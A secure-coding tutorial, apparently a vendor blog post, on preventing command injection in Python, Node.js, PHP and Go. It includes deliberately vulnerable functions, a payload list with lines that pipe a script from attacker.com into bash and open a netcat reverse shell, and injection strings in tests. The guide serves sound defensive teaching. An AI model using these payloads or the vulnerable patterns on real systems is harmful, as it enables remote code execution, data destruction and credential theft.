


# How to Fix "Command Injection" Vulnerabilities

Author: [nawazdhandala](https://www.github.com/nawazdhandala)

Tags: Security, Vulnerability, Command Injection, Shell, OWASP, Input Validation

Description: Learn how to identify and fix command injection vulnerabilities that allow attackers to execute arbitrary system commands on your server.

---

Command injection is one of the most dangerous security vulnerabilities. It occurs when an application passes user input to a system shell without proper sanitization, allowing attackers to execute arbitrary commands on your server. A single vulnerable endpoint can lead to complete system compromise.

---

## How Command Injection Works



---

## Vulnerable Code Examples

### Python - Vulnerable

```python
import os
import subprocess

# VULNERABLE: Using shell=True with user input
def ping_host(hostname):
    # Attacker input: "google.com; cat /etc/passwd"
    result = os.system(f"ping -c 4 {hostname}")
    return result

# VULNERABLE: subprocess with shell=True
def check_dns(domain):
    # Attacker input: "example.com; whoami"
    output = subprocess.check_output(
        f"nslookup {domain}",
        shell=True
    )
    return output

# VULNERABLE: String formatting in commands
def convert_image(filename, output_format):
    # Attacker input: filename="test.jpg; rm -rf /"
    os.system(f"convert {filename} output.{output_format}")
```

### Node.js - Vulnerable

```javascript
const { exec } = require('child_process');

// VULNERABLE: Direct string interpolation
function pingHost(hostname) {
    // Attacker input: "google.com; cat /etc/passwd"
    exec(`ping -c 4 ${hostname}`, (error, stdout) => {
        console.log(stdout);
    });
}

// VULNERABLE: User input in shell command
function processFile(filename) {
    // Attacker input: "file.txt; rm -rf /"
    exec(`wc -l ${filename}`, (error, stdout) => {
        return stdout;
    });
}
```

### PHP - Vulnerable

```php
<?php
// VULNERABLE: Direct user input in shell command
function pingHost($hostname) {
    // Attacker input: "google.com; cat /etc/passwd"
    $output = shell_exec("ping -c 4 " . $hostname);
    return $output;
}

// VULNERABLE: Backticks with user input
function getFileInfo($filename) {
    // Attacker input: "test.txt; whoami"
    return `file $filename`;
}
?>
```

---

## Attack Payloads

Understanding attack patterns helps you test your defenses:

```bash
# Command chaining
; whoami
&& whoami
|| whoami
| whoami

# Command substitution
$(whoami)
`whoami`

# Newline injection
%0awhoami

# Background execution
& whoami &

# Encoded variants
%3B whoami    # URL encoded ;
%7C whoami    # URL encoded |

# Common exploitation
; cat /etc/passwd
; curl http://attacker.com/shell.sh | bash
; nc -e /bin/sh attacker.com 4444
```

---

## Secure Implementation Patterns

### Python - Secure Version

```python
import subprocess
import shlex
import re
from typing import Optional

# SECURE: Use argument arrays, never shell=True
def ping_host_secure(hostname: str) -> Optional[str]:
    # Validate input format
    if not is_valid_hostname(hostname):
        raise ValueError("Invalid hostname format")

    try:
        # Pass arguments as array - no shell interpretation
        result = subprocess.run(
            ["ping", "-c", "4", hostname],
            capture_output=True,
            text=True,
            timeout=30
        )
        return result.stdout
    except subprocess.TimeoutExpired:
        return None

def is_valid_hostname(hostname: str) -> bool:
    """Validate hostname format"""
    # Only allow valid hostname characters
    pattern = r'^[a-zA-Z0-9]([a-zA-Z0-9\-]{0,61}[a-zA-Z0-9])?(\.[a-zA-Z0-9]([a-zA-Z0-9\-]{0,61}[a-zA-Z0-9])?)*$'
    return bool(re.match(pattern, hostname)) and len(hostname) <= 253


# SECURE: If shell is absolutely required, use shlex.quote
def grep_logs_secure(search_term: str, log_file: str) -> str:
    # Validate log file is in allowed directory
    allowed_dir = "/var/log/myapp/"
    if not log_file.startswith(allowed_dir):
        raise ValueError("Invalid log file path")

    # Whitelist allowed characters for search term
    if not re.match(r'^[a-zA-Z0-9_\-\.]+$', search_term):
        raise ValueError("Invalid search term")

    # Quote the arguments
    safe_term = shlex.quote(search_term)
    safe_file = shlex.quote(log_file)

    result = subprocess.run(
        f"grep {safe_term} {safe_file}",
        shell=True,
        capture_output=True,
        text=True
    )
    return result.stdout


# BEST: Avoid shell entirely - use Python libraries
def count_lines_secure(filepath: str) -> int:
    """Count lines without shell commands"""
    # Validate path
    from pathlib import Path

    safe_path = Path(filepath).resolve()
    allowed_dir = Path("/var/data").resolve()

    if not str(safe_path).startswith(str(allowed_dir)):
        raise ValueError("Access denied")

    # Use Python instead of wc -l
    with open(safe_path, 'r') as f:
        return sum(1 for _ in f)
```

---

### Node.js - Secure Version

```javascript
const { execFile, spawn } = require('child_process');
const path = require('path');

// SECURE: Use execFile with argument array
function pingHostSecure(hostname) {
    return new Promise((resolve, reject) => {
        // Validate hostname format
        if (!isValidHostname(hostname)) {
            return reject(new Error('Invalid hostname'));
        }

        // execFile does NOT use shell - arguments are passed directly
        execFile('ping', ['-c', '4', hostname], (error, stdout) => {
            if (error) {
                return reject(error);
            }
            resolve(stdout);
        });
    });
}

function isValidHostname(hostname) {
    const pattern = /^[a-zA-Z0-9]([a-zA-Z0-9\-]{0,61}[a-zA-Z0-9])?(\.[a-zA-Z0-9]([a-zA-Z0-9\-]{0,61}[a-zA-Z0-9])?)*$/;
    return pattern.test(hostname) && hostname.length <= 253;
}

// SECURE: Use spawn with argument array
function convertImageSecure(inputFile, outputFormat) {
    return new Promise((resolve, reject) => {
        // Validate format
        const allowedFormats = ['png', 'jpg', 'gif', 'webp'];
        if (!allowedFormats.includes(outputFormat)) {
            return reject(new Error('Invalid output format'));
        }

        // Validate filename (alphanumeric, underscores, hyphens, dots only)
        if (!/^[\w\-\.]+$/.test(inputFile)) {
            return reject(new Error('Invalid filename'));
        }

        const outputFile = `output.${outputFormat}`;

        // spawn with array - no shell interpretation
        const process = spawn('convert', [inputFile, outputFile]);

        let stdout = '';
        let stderr = '';

        process.stdout.on('data', (data) => { stdout += data; });
        process.stderr.on('data', (data) => { stderr += data; });

        process.on('close', (code) => {
            if (code === 0) {
                resolve(stdout);
            } else {
                reject(new Error(stderr));
            }
        });
    });
}

// BEST: Use native Node.js APIs when possible
const fs = require('fs').promises;

async function countLinesSecure(filepath) {
    // Validate path is within allowed directory
    const allowedDir = '/var/data';
    const resolvedPath = path.resolve(filepath);

    if (!resolvedPath.startsWith(allowedDir + path.sep)) {
        throw new Error('Access denied');
    }

    // Use fs instead of wc -l
    const content = await fs.readFile(resolvedPath, 'utf8');
    return content.split('\n').length;
}
```

---

## Command Execution Decision Flow



---

## Go - Secure Implementation

```go
package main

import (
    "fmt"
    "os/exec"
    "regexp"
    "strings"
)

// SECURE: Use exec.Command with separate arguments
func pingHostSecure(hostname string) (string, error) {
    // Validate hostname
    if !isValidHostname(hostname) {
        return "", fmt.Errorf("invalid hostname")
    }

    // Arguments passed as separate strings - no shell interpretation
    cmd := exec.Command("ping", "-c", "4", hostname)
    output, err := cmd.Output()
    if err != nil {
        return "", err
    }

    return string(output), nil
}

func isValidHostname(hostname string) bool {
    if len(hostname) > 253 {
        return false
    }

    pattern := `^[a-zA-Z0-9]([a-zA-Z0-9\-]{0,61}[a-zA-Z0-9])?(\.[a-zA-Z0-9]([a-zA-Z0-9\-]{0,61}[a-zA-Z0-9])?)*$`
    matched, _ := regexp.MatchString(pattern, hostname)
    return matched
}

// SECURE: Whitelist approach for allowed commands
var allowedCommands = map[string][]string{
    "disk_usage": {"df", "-h"},
    "memory":     {"free", "-m"},
    "uptime":     {"uptime"},
}

func runSystemCommand(commandName string) (string, error) {
    args, ok := allowedCommands[commandName]
    if !ok {
        return "", fmt.Errorf("command not allowed")
    }

    cmd := exec.Command(args[0], args[1:]...)
    output, err := cmd.Output()
    if err != nil {
        return "", err
    }

    return string(output), nil
}
```

---

## Defense in Depth

### 1. Input Validation

```python
import re
from enum import Enum

class AllowedFormats(Enum):
    PNG = "png"
    JPG = "jpg"
    GIF = "gif"

def validate_and_convert(filename: str, output_format: str):
    # Strict whitelist for format
    try:
        format_enum = AllowedFormats(output_format.lower())
    except ValueError:
        raise ValueError(f"Format must be one of: {[f.value for f in AllowedFormats]}")

    # Strict pattern for filename
    if not re.match(r'^[a-zA-Z0-9_\-]+\.[a-zA-Z0-9]+$', filename):
        raise ValueError("Invalid filename format")

    # Now safe to use
    return process_image(filename, format_enum.value)
```

### 2. Sandboxing

```python
import subprocess

def run_sandboxed_command(args: list):
    """Run command with restricted privileges"""

    # Drop privileges and restrict resources
    result = subprocess.run(
        args,
        capture_output=True,
        text=True,
        timeout=30,
        # Run as nobody user
        user="nobody",
        # Restrict to specific directory
        cwd="/tmp/sandbox",
        # Limit environment variables
        env={"PATH": "/usr/bin", "HOME": "/tmp"}
    )

    return result.stdout
```

### 3. Container Isolation

```dockerfile
# Dockerfile for sandboxed command execution
FROM alpine:latest

# Create restricted user
RUN adduser -D -s /bin/false sandbox

# Install only required tools
RUN apk add --no-cache imagemagick

# Remove shell access
RUN rm /bin/sh /bin/ash

# Set restricted permissions
WORKDIR /app
RUN chown sandbox:sandbox /app

USER sandbox

ENTRYPOINT ["/usr/bin/convert"]
```

---

## Testing for Command Injection

```python
import pytest

class TestCommandInjection:

    def test_semicolon_injection_blocked(self):
        with pytest.raises(ValueError):
            ping_host_secure("google.com; whoami")

    def test_pipe_injection_blocked(self):
        with pytest.raises(ValueError):
            ping_host_secure("google.com | cat /etc/passwd")

    def test_ampersand_injection_blocked(self):
        with pytest.raises(ValueError):
            ping_host_secure("google.com && whoami")

    def test_backtick_injection_blocked(self):
        with pytest.raises(ValueError):
            ping_host_secure("`whoami`.example.com")

    def test_dollar_injection_blocked(self):
        with pytest.raises(ValueError):
            ping_host_secure("$(whoami).example.com")

    def test_valid_hostname_allowed(self):
        # Should not raise
        result = ping_host_secure("google.com")
        assert result is not None

    def test_valid_ip_allowed(self):
        result = ping_host_secure("8.8.8.8")
        assert result is not None
```

---

## Common Mistakes to Avoid

```python
# MISTAKE 1: Blacklist approach (easily bypassed)
def bad_sanitize(user_input):
    # Attackers can use: $(whoami) or `whoami` or %0awhoami
    dangerous = [';', '|', '&', '>', '<']
    for char in dangerous:
        user_input = user_input.replace(char, '')
    return user_input

# MISTAKE 2: Insufficient escaping
def bad_escape(user_input):
    # shlex.quote is good but not if shell=True with complex commands
    return shlex.quote(user_input)

# MISTAKE 3: Trusting "internal" input
def bad_trust(filename):
    # Even data from your database could be malicious
    # if it was originally from user input
    os.system(f"process {filename}")
```

---

## Security Checklist

| Check | Status |
|-------|--------|
| Never use shell=True with user input | Required |
| Use argument arrays for subprocess calls | Required |
| Validate input against strict whitelist | Required |
| Use native libraries instead of shell commands | Recommended |
| Run commands with minimal privileges | Recommended |
| Implement timeout for all commands | Recommended |
| Log all command executions | Recommended |
| Use container isolation for untrusted operations | Optional |

---

## Summary

Preventing command injection requires a defense-in-depth approach:

1. **Avoid shell commands** - Use native libraries whenever possible
2. **Never use shell=True** - Pass arguments as arrays to subprocess
3. **Validate strictly** - Whitelist allowed characters and values
4. **Use execFile/spawn** - These do not invoke a shell interpreter
5. **Sandbox execution** - Run with minimal privileges in isolated environments
6. **Test thoroughly** - Include injection payloads in your test suite
7. **Log everything** - Monitor for suspicious command patterns

Remember: if user input ever reaches a shell, you are one bypass away from complete system compromise.

---

*Need to monitor your applications for security threats? [OneUptime](https://oneuptime.com) provides real-time security monitoring, anomaly detection, and alerting to help you identify and respond to attacks before they cause damage.*
